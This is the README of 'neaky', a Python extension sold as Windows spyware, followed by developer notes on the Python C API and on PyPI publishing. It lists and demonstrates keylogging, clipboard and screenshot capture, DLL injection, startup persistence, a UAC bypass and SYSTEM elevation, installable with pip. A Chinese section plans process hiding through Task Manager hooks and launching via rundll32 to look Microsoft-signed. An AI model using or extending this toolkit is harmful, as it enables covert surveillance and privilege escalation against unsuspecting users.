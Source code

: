 # Neaky

Make python a Windows spyware.

features:
- clipboard - get clipboard content.
- screenshot - save screenshot to path
- remote_dll_injection, get_pid_by_name, get_pids_by_name 
- set_startup_reg, delete_startup_reg - add startup registry key.
- keylog_stdout, keylog_to_file, keylog_stop - keylogging by rawinput
- elevate_self, elevated_execute - elevate from admin to system
- bypass_uac_exec - elevate from uac restricted token to full token

## example
see [test/](https://github.com/am009/pyneaky/tree/main/test)

```python
import neaky; neaky.clipboard() # 返回剪切板文字
neaky.screenshot('./s.bmp') # 截屏
neaky.bypass_uac_exec(r"C:\Windows\System32\cmd.exe", "") # 弹出神奇的框执行cmd
neaky.keylog_stdout(); neaky.message_loop() # 键盘监听
```

## keylogger
keylogger requires a message loop on main thread, so when finishing initiliaze, it's required to call `neaky.message_loop()` to start keylogging, which normally will not return and cannot be terminated by Exceptions like Ctrl-C. you have to do other stuffs by creating another thread. See `test/keylog_raw_file` as an example. To stop, use task manager to end task.
when stopping raw input keylogger, message loop will return. Which will result in main thread exiting if there is not code after message_loop in main thread. This is because raw input keylogger creates a invisible window, when the keylogger stops, it destroys the window.

## install
```
pip install neaky
```

## build

(on Windows)

```cmd
python ./setup.py build
```

add module to pythonpath
```python
import sys
sys.path.append(r"C:\Users\warren\d\pyNeaky\pyneaky\build\lib.win-amd64-3.9")
```



## todo


## 目标

原本该模块是作为一个c语言dll存在，通过判断被植入的exe，单个dll实现各种不同功能，包括注入到任务管理器实现进程隐藏，启动时自动提权到能提权的最高程度等等，通过rundll32.exe启动从而勉强算是有微软签名的程序。这些都是作为dll的优点，然而如果作为python的拓展，则必须依附于python.exe。因此这里只提供部分功能，上述功能的实现考虑通过编写另外的dll，利用本拓展提供的dll注入功能注入。

- 一个独立的hook进程信息的dll - taskmgr-hook

- 一个提权小dll，用python CFFI 调用, 用于先提权后执行命令, 方便双重提权，控制台控制是bypass uac，system还是组合。



## 笔记

[Coding Patterns for Python Extensions](https://pythonextensionpatterns.readthedocs.io/en/latest/index.html) 这本书不错

- 如何为函数增加参数相关的注释？

    https://stackoverflow.com/questions/38818400/specifying-python-function-signature-in-c-api
    https://stackoverflow.com/questions/1104823/python-c-extension-method-signatures-for-documentation/41245451#41245451
    [例子](https://github.com/MSeifert04/iteration_utilities/blob/master/src/iteration_utilities/_iteration_utilities/docsfunctions.h)
    而模块的注释：

- 操作list

    https://stackoverflow.com/questions/50668981/how-to-return-a-list-of-ints-in-python-c-api-extension-with-pylist

- 异常处理

    ```python
    PyErr_SetString(PyExc_RuntimeError, "Can not create default value for " #name);
    ```
    或者通过`PyErr_NewException`创建Exception子类作为第一个参数。[例子](https://docs.python.org/3/extending/extending.html#intermezzo-errors-and-exceptions) 

- PyArg_ParseTuple相关处理

    1. str转wchar

       由于u参数是*Deprecated*，首先利用`PyArg_ParseTuple`的U参数获取字符串，`PyUnicode_AsWideCharString`再转成wchar，最后 [`PyMem_Free()`](https://docs.python.org/3/c-api/memory.html#c.PyMem_Free) 。

       ```c
           PyObject *
           neaky_screenshot(PyObject *self, PyObject *args)
           {
               PyObject *path_obj;
               if (!PyArg_ParseTuple(args, "U", &path_obj))
               {
                   return NULL;
               }
               const Py_UNICODE *path = PyUnicode_AsWideCharString(path_obj, NULL);
               ScreenShotSave(path); // do something
               PyMem_Free(path);
               Py_RETURN_NONE;
           }
       ```

       

    2. path相关

       放弃了，还是和1一样，当普通的字符转wchar吧。文档虽然推荐使用PyUnicode_FSConverter函数，但是转换出来的bytes不是wchar这种utf-16类型的，估计还需要一次MultiByteToWideChar转换。这个函数本意是更robust的转义？

       python文档推荐使用O&的转换器函数方式

       ```
       PyObject *path = NULL;
       PyArg_ParseTuple(args, "O&", PyUnicode_FSConverter, &path);
       const char * path_ptr = PyBytes_AsString(path); // internal buffer
       ```

       普通的方式：

       ```cpp
       PyObject *filename_obj = Py_None, *filename_bytes;
       if (!PyArg_ParseTuple(args, "i|O:append_history_file", &nelements, &filename_obj))
               return NULL;
       if (!PyUnicode_FSConverter(filename_obj, &filename_bytes))
                   return NULL;
       ```

       

- 字符串相关

  在setup.py中定义使用wide的windows api。`define_macros=[("UNICODE", None)]`

  内部，get_system部分的错误处理目前还是使用char*，直接调用PyErr_SetString。

  但是似乎和python解释器协作起来，如果还是使用wide的print，在控制台就字符变宽两倍，vscode终端内正常。



- 流程
    1. 增加函数实现
    2. 增加文档，注册到module



- pypi初尝

    增加了pyproject.toml。另外MANIFEST.in也是必不可少的，因为默认只会包含setup.py内的source文件，因此所有的头文件都必须手动包含到sdist里。

    使用https://github.com/joerick/cibuildwheel，增加`.github/workflows/wheels.yml`文件，一push就跑起来了，稍微等一会，windows下build出了针对各种版本的python的wheel，太强了，太省时间了啊！！！

    [using testpypi](https://packaging.python.org/guides/using-testpypi/) 

    pypi似乎不管包内规范，似乎其实就是负责分发源码包和whl。下载build的结果，放到dist文件夹，首先`check-wheel-contents ./dist`，`twine check dist/*`检测一下。

    没有问题后先上传到testpypi看看：
    
    ````
twine upload --repository testpypi dist/*
    ````

    下载下来试试
    
    ```cmd
python -m pip install --index-url https://test.pypi.org/simple/ neaky
    python -m pip install --index-url https://test.pypi.org/simple/ --extra-index-url https://pypi.org/simple neaky
```
    
    最后上传到真正的pypi仓库！！
    
```
    twine upload dist/*
    ```
    
    一个残忍的现实是，一旦上传了某个版本到pypi，就无法再覆盖了，它将永远占用该版本号。可以通过增加build tag（如从1.0.0变为1.0.0-1）（似乎只需要重命名whl？）的方法。而且`Only one sdist may be uploaded per release.` sdist无法通过build tag的方式重新上传。
    
    总之上传起来还是要慎重。感受到了什么是版本发布了。



- python docstring

  python的docstring是基于[reStructuredText](http://docutils.sourceforge.net/rst.html) ，并且使用了[Sphinx](http://sphinx-doc.org/)工具集拓展了一些功能。

  [docstring内联代码](https://stackoverflow.com/questions/56892631/how-to-add-code-snippets-to-python-docstring-not-as-doctest) [Sphinx相关语法](https://pythonhosted.org/an_example_pypi_project/sphinx.html#code) [docstring formats on stackoverflow](https://stackoverflow.com/questions/3898572/what-is-the-standard-python-docstring-format/24385103#24385103) 我使用三个反引号注明python的markdown代码块可以用，似乎vscode还是通过markdown渲染的，而并不是支持推荐的docstring写法。。。因此有时只插入一个换行会导致没有换行。

  此外似乎vscode会把正文中第一对括号识别成参数。。。

  [vscode把docstring作为markdown渲染](https://stackoverflow.com/questions/57017994/what-is-the-python-docstring-format-supported-by-visual-studio-code) 

  ```
  Computes the distance from the origin to the point (x, y)
  
  :param x: the point's x-coordinate
  :param y: the point's y-coordinate
  :return: number. the distance from (0, 0) to the point (x, y)
  ```

  
